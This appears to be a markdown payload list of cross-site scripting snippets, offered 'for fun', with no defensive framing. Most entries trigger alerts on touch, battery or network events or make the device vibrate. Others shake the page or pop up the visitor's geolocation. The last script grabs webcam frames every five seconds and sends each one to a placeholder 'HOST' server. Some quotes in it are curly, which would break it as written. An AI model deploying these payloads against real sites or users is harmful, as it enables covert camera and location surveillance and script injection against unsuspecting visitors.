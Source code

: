 **Basic payloads 4FUN**
```
<body onorientationchange=alert(orientation)>
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<svg onload=alert(navigator.connection.type)>
<svg onload=alert(navigator.battery.level)>
<svg onload=alert(navigator.battery.dischargingTime)>
<svg onload=alert(navigator.battery.charging)>
open(c2.canvas.toDataURL())
<svg onload=navigator.vibrate(500)>
<svg onload=navigator.vibrate([500,300,100])>
```
**Shaking Firefox**
```
%27;setInterval%28x=>%7Bb=document.body.style,b.marginTop=%28b.marginTop==%274px%27%29?%27-4px%27:%274px%27;%7D,5%29//
```
**Geolocation popup**
```
<script>
navigator.geolocation.getCurrentPosition(function(p){
alert('Latitude:'%2Bp.coords.latitude+',Longitude:'%2B
p.coords.longitude%2B',Altitude:'%2Bp.coords.altitude);})
</script>
```
**Victim’s permission we can even take screenshots of his/her camera and send to a server(Chrome)**
```
<script>
d=document;
v=d.createElement(‘video’);
c=d.createElement(‘canvas’);
c.width=640;
c.height=480;
navigator.webkitGetUserMedia({‘video’:true},function(s){
v.src=URL.createObjectURL(s);v.play()},function(){});
c2=c.getContext(‘2d’);
x=’c2.drawImage(v,0,0,640,480);fetch(“//HOST/”+c2.canvas.toDataURL())‘;
setInterval(x,5000);
</script>
```
